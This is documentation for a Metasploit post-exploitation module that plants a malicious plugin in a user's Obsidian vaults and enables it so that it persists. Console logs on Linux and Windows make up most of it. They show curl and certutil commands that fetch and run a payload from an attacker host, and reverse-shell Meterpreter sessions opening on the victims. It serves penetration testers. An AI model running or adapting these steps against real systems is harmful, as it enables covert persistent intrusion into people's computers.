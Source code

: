 ## Vulnerable Application

This module searches for Obsidian vaults for a user, and uploads a malicious
community plugin to the vault. The vaults must be opened with community
plugins enabled (NOT restricted mode), but the plugin will be enabled
automatically.

Tested against Obsidian 1.7.7 on Kali, Ubuntu 22.04, and Windows 10.

### Debugging

To open the console (similar to chrome), use `ctr+shift+i`.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a user shell on the target
4. Do: `use multi/local/obsidian_plugin_persistence`
5. Do: Select a shell which will work on your target OS
6. Do: `run`
7. You should get a shell when the target user opens the vault without restricted mode.

## Options

### NAME

Name of the plugin. Defaults to being randomly generated.

### USER

The user to target. Defaults the user the shell was obtained under.

### CONFIG

Config file location on target. Defaults to empty which will search the default locations.

## Scenarios

### Version and OS

Get a user shell.

```
msf6 exploit(multi/script/web_delivery) > use exploit/multi/local/obsidian_plugin_persistence
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/local/obsidian_plugin_persistence) > set session 1
session => 1
msf6 exploit(multi/local/obsidian_plugin_persistence) > set verbose true
verbose => true
msf6 exploit(multi/local/obsidian_plugin_persistence) > exploit

[*] Command to run on remote host: curl -so ./HvxtaAdZVc http://1.1.1.1:8080/aZRe4yWUN3U2-lDtdsaGlA; chmod +x ./HvxtaAdZVc; ./HvxtaAdZVc &
[*] Fetch handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /aZRe4yWUN3U2-lDtdsaGlA
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using plugin name: xQem
[*] Target User: ubuntu
[*] Found user obsidian file: /home/ubuntu/.config/obsidian/obsidian.json
[+] Found open vault 83ca6e5734f5dfc4: /home/ubuntu/Documents/test
[*] Uploading plugin to vault /home/ubuntu/Documents/test
[*] Uploading: /home/ubuntu/Documents/test/.obsidian/plugins/xQem/main.js
[*] Uploading: /home/ubuntu/Documents/test/.obsidian/plugins/xQem/manifest.json
[*] Found 1 enabled community plugins (sX2sv4)
[*] adding xQem to the enabled community plugins list
[+] Plugin enabled, waiting for Obsidian to open the vault and execute the plugin.
[*] Client 2.2.2.2 requested /aZRe4yWUN3U2-lDtdsaGlA
[*] Sending payload to 2.2.2.2 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49192) at 2024-12-05 10:19:32 -0500

meterpreter > getuid
Server username: ubuntu
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 22.04 (Linux 5.15.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Obsidian 1.7.7 on Windows 10

```

msf6 exploit(multi/local/obsidian_plugin_persistence) > rexploit
[*] Reloading module...

[*] Command to run on remote host: certutil -urlcache -f http://1.1.1.1:8080/bXCLrS0dWKPwEfygT3FJNA %TEMP%\FDTcKUuwF.exe & start /B %TEMP%\FDTcKUuwF.exe
[*] Fetch handler listening on 1.1.1.1:8080
[*] HTTP server started
[*] Adding resource /bXCLrS0dWKPwEfygT3FJNA
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using plugin name: pPq0K
[*] Target User: h00die
[*] Found user obsidian file: C:\Users\h00die\AppData\Roaming\obsidian\obsidian.json
[+] Found open vault 69172dadc065de73: C:\Users\h00die\Documents\vault
[*] Uploading plugin to vault C:\Users\h00die\Documents\vault
[*] Uploading: C:\Users\h00die\Documents\vault/.obsidian/plugins/pPq0K/main.js
[*] Uploading: C:\Users\h00die\Documents\vault/.obsidian/plugins/pPq0K/manifest.json
[*] Found 0 enabled community plugins ()
[*] adding pPq0K to the enabled community plugins list
[+] Plugin enabled, waiting for Obsidian to open the vault and execute the plugin.
[*] Client 3.3.3.3 requested /bXCLrS0dWKPwEfygT3FJNA
[*] Sending payload to 3.3.3.3 (Microsoft-CryptoAPI/10.0)
[*] Client 3.3.3.3 requested /bXCLrS0dWKPwEfygT3FJNA
[*] Sending payload to 3.3.3.3 (CertUtil URL Agent)
[*] Meterpreter session 7 opened (1.1.1.1:4444 -> 3.3.3.3:51369) at 2024-12-05 09:24:24 -0500

meterpreter > getuid
Server username: DESKTOP-3ASD0R4\h00die
meterpreter > sysinfo
Computer        : DESKTOP-3ASD0R4
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
